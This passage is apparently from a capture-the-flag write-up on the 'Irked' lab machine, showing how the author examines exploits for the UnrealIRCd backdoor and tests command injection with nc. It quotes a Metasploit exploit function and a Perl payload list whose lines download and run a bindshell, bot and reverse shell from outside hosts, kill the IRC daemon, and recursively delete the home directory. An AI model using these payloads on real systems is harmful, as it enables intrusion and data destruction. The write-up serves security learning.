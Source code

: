 
I’ll ignore the two for Windows, and take a closer look at the two on Linux. The first is a Metasploit module. I’ll use in to examine the code, . Towards the bottom, I see this function:`-x``searchsploit``searchsploit -x exploits/linux/remote/16922.rb`

    def exploit
        connect
    
        print_status("Connected to #{rhost}:#{rport}...")
        banner = sock.get_once(-1, 30)
        banner.to_s.split("\n").each do |line|
        print_line("    #{line}")
        end
    
        print_status("Sending backdoor command...")
        sock.put("AB;" + payload.encoded + "\n")
    
        handler
        disconnect
    end
    

It looks like the exploit is to connect and then send “AB;” + the payload + “\\n”.

I’ll examine the perl script the same way, . Right at the top I see this section:`searchsploit -x exploits/linux/remote/13853.pl`

    ## Payload options
    my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
    my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
    my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
    my $payload4 = 'AB; killall ircd';
    my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
    

It appears to be doing the same thing.

## Shell as ircd

### Show RCE

Based on what I found during reconnaissance, I think I can just connect with and enter and get it to run. I’ll test with a ping. I have running listening for icmp. Now I’ll connect, and test out my theory:`nc``AB; [some command]``tcpdump`

    root@kali# nc 10.10.10.117 6697
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
    :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    AB; ping -c 1 10.10.14.14
    :irked.htb 451 AB; :You have not registered
    

In my other window:
